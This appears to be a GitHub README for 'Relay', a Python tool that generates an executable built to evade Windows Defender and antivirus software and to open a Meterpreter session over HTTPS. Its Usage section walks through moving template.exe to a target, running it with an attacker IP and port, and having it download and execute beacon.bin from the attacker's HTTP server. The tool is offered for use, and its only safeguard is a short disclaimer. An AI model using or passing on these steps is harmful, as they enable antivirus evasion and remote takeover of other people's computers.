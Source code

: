 # Script Name

Script Name: **Relay**

## Description

The "Relay" script is a powerful tool designed to generate an executable file that bypasses Windows Defender and establishes a secure connection using meterpreter over HTTPS. This script automates the process of creating a payload that can be used for various purposes, such as penetration testing and security assessments.

## Features

- Bypasses Windows Defender: The generated executable is specifically crafted to evade detection by Windows Defender and other antivirus software.
- Meterpreter over HTTPS: The script establishes a connection using meterpreter, providing a versatile and robust framework for interacting with the target system.
- Encrypted Communication: All communication between the attacker and the target system is encrypted using HTTPS, ensuring confidentiality and integrity of the data exchanged.
- Simple Usage: The script prompts the user to enter their IP address, port, and certificate file, making it easy to customize and generate the payload.

## Usage

1. Run the Python script and follow the on-screen instructions.
2. Enter your IP address, port, and the path to the certificate file when prompted.
3. The script will generate an executable file named `template.exe`.
4. Transfer the `template.exe` file to the target system.
5. On the target system, open a command prompt and navigate to the directory containing `template.exe`.
6. Run the following command: `template.exe <attacker_ip> <attacker_port> beacon.bin`. Replace `<attacker_ip>` and `<attacker_port>` with the IP address and port specified during script execution.
7. On the attacker machine, navigate to the directory containing `beacon.bin`.
8. Start a simple HTTP server using the command: `python3 -m http.server`.
9. The target system will download `beacon.bin` from the HTTP server and execute it, establishing a meterpreter session over HTTPS.

**Note:** Ensure that you have the necessary permissions and legal authorization before using this script for any activities.

## Disclaimer

This script is intended for educational and ethical purposes only. The misuse of this script for any unauthorized activities is strictly prohibited. The author is not responsible for any damage or illegal actions caused by the use of this script.

## License

This project is licensed under the [MIT License](LICENSE).
